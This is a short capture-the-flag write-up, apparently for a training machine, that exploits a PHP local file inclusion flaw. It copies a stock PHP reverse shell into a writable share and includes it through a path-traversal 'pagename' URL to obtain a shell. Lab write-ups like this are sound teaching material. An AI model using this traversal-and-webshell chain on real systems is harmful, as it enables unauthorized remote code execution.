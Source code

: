 # 20 - LFI


# administrator1
![](vx_images/3542904047331.png)

# login.php
![](vx_images/5152893889033.png)

we have successfully logged in with the credentials from creds.txt (smb)


# dashboard.php
![](vx_images/3924284684483.png)

# Parameters
![](vx_images/1538890604578.png)

the value `timestamp` for `pagename` turns out to be a php file

![](vx_images/3213275587050.png)

Most likely it adds .php extension to the end of the name and includes it. Without going into the rabbit hole of searching for plain text credentials in php files, we can include our own reverse shell since we have write permissions on Development share.

I prefer php-reverse-shell.php


# Copy the reverse shell into Development share
```
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone/Development]
└──╼ $ sudo cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```


# Include the reverse shell
```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../etc/Development/shell
```


# Shell
![](vx_images/4398562738516.png)

